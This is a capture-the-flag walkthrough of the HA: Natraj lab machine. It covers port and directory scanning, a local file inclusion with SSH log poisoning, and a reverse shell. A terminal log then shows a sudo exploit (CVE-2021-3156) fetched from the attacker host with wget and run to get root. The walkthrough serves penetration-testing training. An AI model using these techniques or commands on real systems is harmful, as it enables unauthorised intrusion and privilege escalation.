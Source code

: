 ```yaml
---
categories: [Proving Grounds Play, Walkthrough]
tags: [PrivEsc]
---
```


Let’s find the IP Address first >>

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled.png)

```bash
IP : 192.168.249.135
```

## Port Scan Results ➡️

```bash
┌──(kali㉿kali)-[~/Downloads/Proving_Ground/Ha_natraj]
└─$ sudo nmap -sC -sV -p- -T4 -oN Nmap_results.txt 192.168.249.135                                                                        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-18 08:01 EDT
Nmap scan report for 192.168.249.135
Host is up (0.00080s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d99fdaf42e670192d5da7f70d006b392 (RSA)
|   256 bceaf13bfa7c050c929592e9e7d20771 (ECDSA)
|_  256 f0245b7a3bd6b794c44bfe5721f80061 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA:Natraj
|_http-server-header: Apache/2.4.29 (Ubuntu)
MAC Address: 00:0C:29:F7:80:5D (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Enumeration ⤵️

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%201.png)

Now lets see the directory traveral files/directories →

```bash
200      GET      183l     1767w    14497c http://192.168.249.135/
301      GET        9l       28w      319c http://192.168.249.135/images => http://192.168.249.135/images/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/images (Apache)
200      GET      183l     1767w    14497c http://192.168.249.135/index.html
301      GET        9l       28w      320c http://192.168.249.135/console => http://192.168.249.135/console/
MSG      0.000 feroxbuster::heuristics detected directory listing: http://192.168.249.135/console (Apache)
```

Let’s look for LFI in `/console/` directory→

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%202.png)

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%203.png)

Now I found a `auth.log` file where I found ssh login logs →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%204.png)

Now I have to try `ssh poisoning` to get the command execution running →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%205.png)

Now lets see the response in auth.log file →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%206.png)

After this lets try command injection through `cmd` →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%207.png)

Its reverse Shell time →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%208.png)

Now In response I got the shell →

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%209.png)

Now I found nothing so far , therefore I got to know about sudo version and exploited it →

```bash
www-data@ubuntu:/var/www/html$ sudo -V
Sudo version 1.8.21p2
Sudoers policy plugin version 1.8.21p2
Sudoers file grammar version 46
Sudoers I/O plugin version 1.8.21p2
```

Now After recon I found the exploit →

➡️ [https://github.com/worawit/CVE-2021-3156/tree/main](https://github.com/worawit/CVE-2021-3156/tree/main)

![Untitled](/Vulnhub-Files/img/Ha-Natraj/Untitled%2010.png)

Now lets copy this exploit into our system →

```bash
www-data@ubuntu:/tmp$ wget http://192.168.249.128:8888/exploit.py
--2023-05-19 00:57:26--  http://192.168.249.128:8888/exploit.py
Connecting to 192.168.249.128:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8179 (8.0K) [text/x-python]
Saving to: 'exploit.py'

exploit.py          100%[===================>]   7.99K  --.-KB/s    in 0s      

2023-05-19 00:57:26 (483 MB/s) - 'exploit.py' saved [8179/8179]

www-data@ubuntu:/tmp$ ls
exploit.py
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.135
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.135'
www-data@ubuntu:/tmp$ python3 exploit.py 192.168.249.128
Traceback (most recent call last):
  File "exploit.py", line 239, in <module>
    extra_chunk_cnt = get_extra_chunk_count(CHUNK_CMND_SIZE) if len(sys.argv) < 2 else int(sys.argv[1])
ValueError: invalid literal for int() with base 10: '192.168.249.128'
www-data@ubuntu:/tmp$ python3 exploit.py                
# /bin/bash
root@ubuntu:/tmp# whoami
root
root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
root@ubuntu:/tmp# hostname
ubuntu
root@ubuntu:/tmp# cd ~
root@ubuntu:/root# ls -al
total 24
drwx------  3 root root 4096 Jun  3  2020 .
drwxr-xr-x 22 root root 4096 Jun  3  2020 ..
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 Jun  3  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root 1592 Jun  3  2020 root.txt
root@ubuntu:/root# cat root.txt

███▄▄▄▄      ▄████████     ███        ▄████████    ▄████████      ▄█ 
███▀▀▀██▄   ███    ███ ▀█████████▄   ███    ███   ███    ███     ███ 
███   ███   ███    ███    ▀███▀▀██   ███    ███   ███    ███     ███ 
███   ███   ███    ███     ███   ▀  ▄███▄▄▄▄██▀   ███    ███     ███ 
███   ███ ▀███████████     ███     ▀▀███▀▀▀▀▀   ▀███████████     ███ 
███   ███   ███    ███     ███     ▀███████████   ███    ███     ███ 
███   ███   ███    ███     ███       ███    ███   ███    ███     ███ 
 ▀█   █▀    ███    █▀     ▄████▀     ███    ███   ███    █▀  █▄ ▄███ 
                                     ███    ███              ▀▀▀▀▀▀  

!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Geet Madan : https://www.linkedin.com/in/geet-madan/

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
__________________________________
root@ubuntu:/root#
```